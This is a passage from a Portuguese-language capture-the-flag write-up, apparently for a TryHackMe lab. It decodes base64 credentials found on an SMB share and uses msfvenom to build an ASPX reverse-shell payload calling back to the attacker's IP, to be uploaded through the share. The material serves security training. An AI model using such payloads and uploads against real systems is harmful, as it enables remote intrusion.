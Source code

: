 ```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```
Aparentemente temos duas hashes em `base64`, vamos tentar decriptá-las.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw' | base64 -d
Bob - !P@$$W0rD!123base64: invalid input
                                                                                                                                                                                                                                             
┌──(hastur㉿hastur)-[~/Relevant]
└─$ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d                                                                                                                                                                          1 ⨯
Bill - Juw4nnaM4n420696969!$$$   
```

Temos duas credenciais, mas ainda não sabemos para qual serviço em questão, vamos tentar acessar o arquivo `passwords.txt` pelo browser, para confirmar se o diretório web é o mesmo do SMB.

<img src="/img/thm/thm-relevant-3.png">

Ótimo, temos acesso ao diretório que reflete no webserver, podemos criar um exploit que nos dará um reverse shell!!

Vamos utilizar o `msfvenom` para criar nosso exploit.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.9.0.16 lport=8443 -f aspx -o hastur.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3411 bytes
Saved as: hastur.aspx
```
Vamos subir nosso exploit através do SMB.
